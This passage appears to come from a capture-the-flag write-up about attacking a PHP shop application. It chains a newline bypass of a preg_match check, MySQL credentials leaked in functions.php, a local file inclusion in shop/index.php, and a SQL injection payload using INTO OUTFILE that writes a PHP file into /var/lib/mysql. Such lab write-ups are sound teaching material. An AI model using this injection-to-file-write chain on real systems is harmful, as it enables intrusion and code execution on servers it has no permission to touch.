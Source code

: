 ```php
        }
        // Prevent form resubmission...
        header('location: index.php?page=cart');
        exit;
    }
}

//ALL ELSE IRRELEVANT
```

The regex defining what is allowed in the parameter hard declares the end of the line with `$`. This is excellent news as we can use the new line byte %0a and run whatever we want permitting it runs within the database service. 

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/index.html#preg_match)


THe service in question is MYSQL and has leaked creds in the `functions.php` hidden file. The final piece to this puzzle is LFI from `shop/index.php`:

```php
shop/index.php

<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

With that logic so long as the file exists and is php we can GET it. A common way to exploit SQL if you have LFI is to create files within the `/var/lib/mysql/` directory as SQL should have permissions to write there. The other important part of this puzzle is **INTO OUTFILE**, where MySQL allows you to send the results of a query (or defined string) into a file.

For more on that: [https://www.exploit-db.com/papers/14635](https://www.exploit-db.com/papers/14635)

```sql
%0a';select '<?php phpinfo(); ?>' into outfile '/var/lib/mysql/raccoon.php'; --1
```

I'll create a test file which will load the php info, and importantly I need to define the id of the item on the end to prevent the php from erroring out. 
